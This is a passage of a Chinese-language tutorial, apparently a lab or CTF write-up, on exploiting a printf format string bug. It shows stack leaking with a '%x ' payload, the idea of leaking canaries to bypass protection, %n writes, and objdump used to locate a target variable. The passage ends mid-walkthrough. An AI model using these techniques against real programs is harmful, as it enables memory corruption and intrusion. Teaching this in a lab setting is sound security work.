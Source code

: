 正常的使用 `printf`，我們的參數會位於 stack 上，這個參數就是接下來我們要印出的內容，而在這邊我們沒有參數，而 `printf` 的行為會在 stack 上找出可印出的內容，也就是 stack 上的任意內容，並且印在螢幕上。這屬於記憶體洩漏的漏洞 (memory leak)。

假設我們有一些保護機制，像是 ASLR 或是 canary，我們可以通過記憶體洩漏的漏洞，像是上面看到的格式化字串的漏洞，我們可以藉此將 canary 的值洩漏出來，達到繞過 canary 保護機制的效果，使得 buffer overflow 的攻擊能夠成立。

回到題目本身，我們該如何去修改 `target` 這個值？這邊我們可以使用 `printf` 中 `%n` 的方式，`%n` 的作用為將已經印出來的字元數目寫入到某一個整數中，參數為 `int *`，以下舉例

```c
#include<stdio.h>

int main(void) {
    int n = 0;
    printf("Hello%n World\n", &n);
    printf("%d", n);
    return 0;
}
```
```
Hello World
5
```
在這個例子中，`%n` 之前已經印出了 5 個字元 `Hello`，並將已經印出的字元數目寫入到 `n` 中，可以看到傳入的參數為 `int *`，接著我們反參考並且印出，得到 `n = 5`。

如果我們可以洩漏出 `target` 的記憶體地址，就可以使用這個手法將 `target` 的值進行更改了。

我們可以使用 `objdump` 找出二進位檔案中所有的符號，並找到 `target` 的記憶體地址
```shell
$ objdump -t format1 | grep target
08049638 g     O .bss   00000004              target
```
找到 `target` 位於記憶體地址中 `0x08049638` 的位置，接著我們需要對這個位址進行寫入，我們試著印出更多在 stack 上的內容，使用 python 撰寫腳本，並作為 `format_string` 執行檔的參數
```py
print("%x " * 200)
```
```shell
$ ./format_string "`python3 script.py`"
ffffd9d8 ffffd9f0 403e18 f7e1af10 f7fc9040 2 ffffddfe
ffffd8c0 4011b9 ffffd9d8 401070 2 f7c29d90 0 401193 ffffd9c0
ffffd9d8 0 47c99224 ffffd9d8 401193 403e18 f7ffd040 f66d9224
7d459224 0 0 0 0 0 f28cf900 0 f7c29e40 ffffd9f0 403e18
f7ffe2e0 0 0 401070 ffffd9d0 0 0 401095 ffffd9c8 1c 2
ffffddee ffffddfe 0 ffffe057 ffffe06e ffffe07d ffffe091
ffffe0c7 ffffe0fa ffffe111 ffffe11c ffffe150 ffffe1a8 
ffffe1bb ffffe1d7 ffffe222 ffffe234 ffffe250 ffffe266 
ffffe27b ffffe291 ffffe2ad ffffe2ce ffffe2ed ffffe304 
ffffe315 ffffe324 ffffe336 ffffe34f ffffe365 ffffe378 
ffffe387 ffffe399 ffffe3a9 ffffe3bd ffffe3cc ffffe3db 
ffffe411 ffffe448 ffffe47a ffffe4fa ffffe512 ffffe51f 
ffffe561 ffffe574 ffffe592 ffffe5a4 ffffe63e ffffe651 
ffffe683 ffffe68b ffffe69e ffffe6cd ffffe6e3 ffffe6f7 
ffffe703 ffffe716 ffffe73a ffffe74a ffffe764 ffffe7b2 
ffffe7ca ffffe808 ffffe827 ffffe836 ffffe86a ffffe881 
ffffe899 ffffe8aa ffffe8e4 ffffe8f9 ffffe904 ffffe918 
ffffe968 ffffe974 ffffe988 ffffe9a4 ffffe9af ffffe9b7 
ffffe9d7 ffffefc6 ffffefd0 0 21 f7fc1000 33 d30 10 178bfbff 6 
1000 11 64 3 400040 4 38 5 d 7 f7fc3000 8 0 9 401070 b 3e8 c 
3e8 d 3e8 e 3e8 17 0 19 ffffddc9 1a 2 1f ffffefe8 f ffffddd9 
0 0 0 8cf95b00 5ea3e63f 363878c9 0 0 6d726f66 6e697274 
20782520 78252078 25207825 20782520 78252078 25207825 
20782520 78252078 25207825 20782520 78252078 25207825 
20782520 78252078 25207825 20782520 78252078 25207825 
20782520 78252078 25207825
```
我們發現到最後不斷出現 `25207825` 等看起來不像是記憶體地址的內容，我們推測可能為 ASCII 編碼，我們試著使用 python 進行解碼
```shell
```